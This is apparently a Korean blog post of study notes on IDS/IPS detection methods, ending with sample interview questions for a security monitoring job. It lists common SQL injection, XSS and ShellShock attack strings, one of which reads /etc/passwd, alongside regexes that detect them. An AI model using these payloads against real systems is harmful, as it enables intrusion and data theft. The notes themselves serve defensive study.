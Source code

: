 ```yaml
---
layout : post
title : IPS/IDS
---
```


- Signiture - SQL Injection 알려진 구문을 탐지 

- Threshold - 임계치 설정, DOS 공격 탐지

- 행위기반 - 보편화되진 않지만 쓰이고 있긴 하다.

  ​	  	  미래에는 딥러닝, AI 탑재해서 쓸 듯

- IPS - 탐지된 패킷을 솔루션장비에서 물고있다가 정탐으로 인식되면 버린다.

  ​	 패킷에 스트링을 검색하여 탐지

  ​	 IDS에 차단하는 기능을 가지고 있는 것

  ​	 IPS는 임계치 방식에 특화되어있지 않다.

<br>

## 대표적인 웹 공격 구문

- SQL Injection

  ~~~
  ' or 1=1--  
  ") or ("a"="a  
  and 1=(select @@VERSION) 
  and 1=(IS_SRVROLEMEMBER('sysadmin')) 
  OR 'Simple' BETWEEN 'R' AND 'T' 
  and (substring(db_name(),1,1))='a'
  elect * from (select name_const(version(),1),name_const(version(),1))a
  select * from table where 1=1 and ExtractValue(1,concat(0x01,version()))
  select * from table where 1=1 and UpdateXML(1,concat(0x01,version()),1)
  select * from table where (@:=1)or@ group by concat(@@version,@:=!@)having@||min(0)
  ~~~

  > Regex : /(\%27)\|(\')\|(\-\-)\|(\%23)\|(#)/ix
  >
  > Link : <https://www.symantec.com/connect/articles/detection-sql-injection-and-cross-site-scripting-attacks>

  <br>

- XSS

  ~~~
  <script>alert("test");</script> 
  <iframe src=" hxxp://abc.com" width="0" height="0" frameborder="0"></iframe>
  <object width=0 height=0 sytle=display:none; type=text/xscriptlet data=mk:@MSITStore:mhtml:c:\abc.mht! hxxp://abc.com/attack_chm::exploit.html></object>
  ~~~

  > Regex : /((\%3C)\|<)((\%2F)\|\/)\*[a-z0-9\%]+((\%3E)\|>)/ix
  >
  > Link : <https://www.symantec.com/connect/articles/detection-sql-injection-and-cross-site-scripting-attacks>

  <br>

- Bash ShellShock

  ~~~
  User-Agent : () { :;}; echo bashtest>/tmp/test
  User-Agent : () { :; }; echo $(</etc/passwd)
  User-Agent : () { :; }; /bin/eject" hxxp://example.com/
  HTTP_USER_AGENT=() { :; }; /bin/eject
  ~~~

  > Regex : \"((?:\[^\"\]\|\\\")*)\"
  >
  > Link : <https://stackoverflow.com/questions/28115717/regexp-to-parse-apache2-log-handle-shellshock-bash-hack>

<br><br>

### 배치면접 관제 질문

> FW가 뭐에요?
>
> IDS가 뭐에요?
>
> IPS가 뭐하는 거에요?
>
> VPN 써봤어요?
>
> NAT 설정해봤어요?


